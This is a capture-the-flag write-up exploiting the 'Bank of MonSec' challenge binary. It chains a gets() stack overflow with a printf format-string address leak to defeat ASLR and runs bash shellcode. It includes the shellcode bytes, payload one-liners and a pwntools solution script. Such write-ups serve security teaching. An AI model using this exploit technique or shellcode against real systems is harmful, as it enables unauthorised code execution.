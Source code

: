 ## Challenge writeup

In this challenge, you are given the executable `./bankofmonsec`. The program gives the following prompt when running it:
```
+----------------------+
|                      |
|    Welcome to the    |
|    Bank of MonSec    |
|                      |
+----------------------+
Please log in to continue.

Name: leo
Hello, leo
password: asdf
Sorry, no flag for you :(
```
Most of the logic for this program occurs within the function `login`
```
Dump of assembler code for function login:
   0x080491f6 <+0>:     endbr32
   0x080491fa <+4>:     push   esi
   0x080491fb <+5>:     push   ebx
   0x080491fc <+6>:     sub    esp,0x3c
   0x080491ff <+9>:     call   0x8049130 <__x86.get_pc_thunk.bx>
   0x08049204 <+14>:    add    ebx,0x2dfc
   0x0804920a <+20>:    lea    eax,[ebx-0x1ff8]
   0x08049210 <+26>:    push   eax
   0x08049211 <+27>:    push   0x1
   0x08049213 <+29>:    call   0x80490d0 <__printf_chk@plt>
   0x08049218 <+34>:    add    esp,0x4
   0x0804921b <+37>:    lea    esi,[esp+0x14]
   0x0804921f <+41>:    push   esi
   0x08049220 <+42>:    call   0x8049090 <gets@plt>
   0x08049225 <+47>:    add    esp,0x8
   0x08049228 <+50>:    lea    eax,[ebx-0x1ff1]
   0x0804922e <+56>:    push   eax
   0x0804922f <+57>:    push   0x1
   0x08049231 <+59>:    call   0x80490d0 <__printf_chk@plt>
   0x08049236 <+64>:    add    esp,0x8
   0x08049239 <+67>:    push   esi
   0x0804923a <+68>:    push   0x1
   0x0804923c <+70>:    call   0x80490d0 <__printf_chk@plt>
   0x08049241 <+75>:    mov    DWORD PTR [esp],0xa
   0x08049248 <+82>:    call   0x80490c0 <putchar@plt>
   0x0804924d <+87>:    add    esp,0x8
   0x08049250 <+90>:    lea    eax,[ebx-0x1fe9]
   0x08049256 <+96>:    push   eax
   0x08049257 <+97>:    push   0x1
   0x08049259 <+99>:    call   0x80490d0 <__printf_chk@plt>
   0x0804925e <+104>:   add    esp,0x4
   0x08049261 <+107>:   lea    eax,[esp+0x28]
   0x08049265 <+111>:   push   eax
   0x08049266 <+112>:   call   0x8049090 <gets@plt>
   0x0804926b <+117>:   add    esp,0x44
   0x0804926e <+120>:   pop    ebx
   0x0804926f <+121>:   pop    esi
   0x08049270 <+122>:   ret
```

From this assembly listing, you can see that both of the user inputs are taken using the function `gets` which makes the program vulnerable to buffer overflows. We can see the security protections enabled by using `checksec` from pwntools.
```
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```
One further observation is that the call to `printf` at `login+59` is vulnerable to a format string injection.
```
Name: %x %x %x
Hello, ff939b78 f7da343b f7f19d20
```
There are several ways to approach this challenge, but the following method was the simplest way that I have found. Because there is no NX bit set, we can write our own shellcode to the stack and then jump to it. To do this, we need to find the offset of EIP on the stack and then overwrite it to the address where we placed our shellcode. 
```
pwndbg> break *login+122
Breakpoint 1 at 0x8049270
pwndbg> cyclic 100
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa
pwndbg> r < <(python2 -c "print 'aaa\n' + 'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa'")
...
pwndbg> info frame
Stack level 0, frame at 0xffffd210:
 eip = 0x8049270 in login; saved eip = 0x61616169
 called by frame at 0xffffd214
 Arglist at 0xffffd208, args:
 Locals at 0xffffd208, Previous frame's sp is 0xffffd210
 Saved registers:
  eip at 0xffffd20c
pwndbg> cyclic -l 0x61616169
32
pwndbg> x/s $esp
0xffffd20c:     "iaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa"
```
To place and jump to our shellcode, we'll need a pad of 32 bytes, followed by the bytes `(0xffffd20c+4)` and our shellcode. I'll be using the following shellcode which executes `execve("/bin/bash", ["/bin/bash", "-p"], NULL)`:
```
\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80'
```
I will also include a small [NOP sled](https://reverseengineering.stackexchange.com/questions/16706/what-causes-the-need-for-nop-sleds) using the bytes `\x90` so that we don't have to get the address perfect, but it shouldn't matter in this instance. 
```
pwndbg> r < <(python2 -c "from pwn import p32; print 'aaa\n' + 'a'*32 + p32(0xffffd20c+4) + b'\x90'*15 + b'\x6a\x0b\x58\x9
9\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80'")
Starting program: /mnt/d/Users/leo/Documents/MEGA/test/bankofmonsec < <(python2 -c "from pwn import p32; print 'aaa\n' + 'a'*32 + p32(0xffffd20c+4) + b'\x90'*15 + b'\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80'")
+----------------------+
|                      |
|    Welcome to the    |
|    Bank of MonSec    |
|                      |
+----------------------+
Please log in to continue.

Name: Hello, aaa
process 325 is executing new program: /usr/bin/bash
[Inferior 1 (process 325) exited normally]
```

However, when we try to use this exploit outside of GDB, our payload does not work any more, and we instead get a Segmentation fault.
```
$ python2 -c "from pwn import p32; print 'aaa\n' + 'a'*32 + p32(0xffffd20c+4) + b'\x90'*15 + b'\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\
x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80'" | ./bankofmonsec
+----------------------+
|                      |
|    Welcome to the    |
|    Bank of MonSec    |
|                      |
+----------------------+
Please log in to continue.

Name: Hello, aaa
Segmentation fault
```
This is the result of [ASLR](https://en.wikipedia.org/wiki/Address_space_layout_randomization), as - more often than not - the address `0xffffd20c+4` we have hardcoded will not point to the start of our shellcode. A common approach to get around this is to include a large NOP sled and use brute force. However, we can bypass this using a memory leak from the format string injection I mentioned earlier. By passing `%p` as our name, we can find an address on the stack, and then calculate the value to overwrite EIP with relative to that. GDB disables ASLR by default, and so running our program in that will let us find the correct offset.
```
pwndbg> break *login+122
Breakpoint 1 at 0x8049270
pwndbg> r
Starting program: /bankofmonsec
+----------------------+
|                      |
|    Welcome to the    |
|    Bank of MonSec    |
|                      |
+----------------------+
Please log in to continue.

Name: %p
Hello, 0xffffd208
password: asdf
...
pwndbg> p $esp
$1 = (void *) 0xffffd20c
```
Here, the address of the stack pointer is four bytes above the address leaked by printf. Therefore, we can make our payload bypass ASLR by overwriting the value of EIP saved on the stack with the address leaked from printf plus 8. Here is the solution script that I used:
```python
from pwn import *

nop = b'\x90'
shellcode = b'\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80'

#p = process('./bankofmonsec')
p = remote('192.168.0.14', 9000)

p.recvuntil(b'continue.')
p.recvline()
p.recvline()
p.send("%p\n")
addr = int(p.recvline().split()[-1], 16)

p.send('a'*32 + p32(addr+8) + nop*15 + shellcode + '\n')
p.interactive()
```
```bash
$ python2 solution.py
[+] Opening connection to 192.168.0.14 on port 9000: Done
[*] Switching to interactive mode
password: $ ls
Dockerfile  Makefile  bankofmonsec  bankofmonsec.c  flag.txt  levelup.zip
$ cat flag.txt
FLAG{f0rm47_57r1n65_4r3_u53ful}
```
